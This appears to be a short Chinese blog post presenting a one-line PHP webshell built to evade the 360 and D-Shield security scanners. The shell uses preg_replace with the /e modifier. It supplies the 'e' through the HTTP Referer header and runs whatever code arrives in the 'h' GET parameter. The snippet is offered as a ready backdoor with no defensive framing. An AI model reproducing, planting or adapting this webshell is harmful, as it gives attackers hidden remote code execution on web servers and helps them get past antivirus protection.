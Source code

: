 ```yaml
---
layout: post
title:  "过360查杀D盾一句话"
date:   2016-11-12 17:04:52
comments: true
categories: php update
---
```

preg_replace(//) 函数加/e可以执行代码 。 这里的 “e”我使用referer的方式来获取， 绕过了检测

{% highlight php %}
<?php
$server= $_SERVER['HTTP_REFERER'];
$s[1]=$server;
preg_replace("/t/{$s[1]}",$_GET["h"],"t");


{% endhighlight %}

 ![img](https://striker.teambition.net/thumbnail/110lc0f74e834ec7663908097a2663346161/w/800/h/847)
